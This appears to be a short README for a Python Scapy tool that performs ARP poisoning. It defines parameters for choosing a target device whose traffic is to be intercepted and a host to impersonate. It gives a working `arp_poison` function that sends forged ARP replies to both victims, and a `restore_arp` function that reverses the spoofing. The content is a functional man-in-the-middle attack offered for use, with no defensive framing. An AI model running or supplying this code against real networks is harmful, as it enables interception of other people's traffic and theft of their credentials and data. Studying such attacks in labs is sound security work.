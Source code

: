 target_ip: The IP address of the device you want to intercept communication from.
target_mac: The MAC address of the device you want to intercept communication from.
source_ip: The IP address of the device you want to impersonate to the target.
source_mac: The MAC address of the device you want to impersonate to the target.

##  ARP poison
ARP: A Scapy class for creating ARP packets. op=2 specifies an ARP reply.
pdst: Destination IP address.
hwdst: Destination MAC address.
psrc: Source IP address (spoofed).
hwsrc: Source MAC address (attacker's MAC).

```
def arp_poison(target_ip, target_mac, source_ip, source_mac):
    send(ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=source_ip, hwsrc=source_mac), verbose=False)
    send(ARP(op=2, pdst=source_ip, hwdst=source_mac, psrc=target_ip, hwsrc=target_mac), verbose=False)
```

## restore poison

```
def restore_arp(target_ip, target_mac, source_ip, source_mac):
    send(ARP(op=2, pdst=target_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=source_mac, psrc=source_ip), count=3, verbose=False)
    send(ARP(op=2, pdst=source_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=target_mac, psrc=target_ip), count=3, verbose=False)
```

ff:ff:ff:ff:ff:ff --> adress brodcast